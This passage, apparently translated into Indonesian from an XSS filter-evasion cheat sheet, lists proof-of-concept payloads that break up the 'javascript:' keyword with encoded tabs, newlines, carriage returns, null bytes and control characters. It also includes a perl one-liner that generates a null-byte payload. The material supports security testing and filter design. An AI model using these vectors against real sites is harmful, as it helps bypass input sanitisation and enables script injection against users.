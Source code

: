 
```html
<a href="jav ascript:alert('XSS');">Klik Saya</a>
```


### Tab Terenkripsi Tertanam

Pendekatan ini juga dapat memecah XSS:

```html
<a href="jav&#x09;ascript:alert('XSS');">Klik Saya</a>
```

### Baris Baru Tertanam untuk Memecah XSS

Meskipun beberapa pembela mengklaim bahwa salah satu karakter 09-13 (desimal) akan berfungsi untuk serangan ini, ini tidak benar. Hanya 09 (tab horizontal), 10 (baris baru), dan 13 (carriage return) yang berfungsi. Periksa [tabel ASCII](https://man7.org/linux/man-pages/man7/ascii.7.html) untuk referensi. Empat contoh serangan XSS berikutnya mengilustrasikan vektor ini:

```html
<a href="jav&#x0A;ascript:alert('XSS');">Klik Saya</a>
```

#### Contoh 1: Pisahkan Serangan XSS dengan Embedded Carriage Return

(Catatan: dengan contoh di atas saya membuat string ini lebih panjang dari yang seharusnya karena angka nol dapat dihilangkan. Sering kali saya melihat filter yang menganggap enkode hex dan dec harus terdiri dari dua atau tiga karakter. Aturan sebenarnya adalah 1-7 karakter.):

```html
<a href="jav&#x0D;ascript:alert('XSS');">Klik Saya</a>
```

#### Contoh 2: Pisahkan Direktif JavaScript dengan Null

Karakter null juga berfungsi sebagai vektor XSS tetapi tidak seperti di atas, Anda perlu menyuntikkannya secara langsung menggunakan sesuatu seperti Burp Proxy atau menggunakan `%00` di string URL atau jika Anda ingin menulis alat injeksi Anda sendiri, Anda dapat menggunakan vim (`^V^@` akan menghasilkan null) atau program berikut untuk membuatnya menjadi file teks. Karakter null `%00` jauh lebih berguna dan membantu saya melewati filter dunia nyata tertentu dengan variasi pada contoh ini:

```sh
perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out
```

#### Contoh 3: Spasi dan Karakter Meta Sebelum JavaScript dalam Gambar untuk XSS

Ini berguna jika pencocokan pola filter tidak memperhitungkan spasi dalam kata `javascript:`, yang benar karena itu tidak akan ditampilkan, tetapi membuat asumsi yang salah bahwa Anda tidak dapat memiliki spasi antara tanda kutip dan kata kunci `javascript:`. Realitas yang sebenarnya adalah Anda dapat memiliki karakter apa pun dari 1-32 dalam desimal:

```html
<a href=" &#14; javascript:alert('XSS');">Klik Saya</a>
```
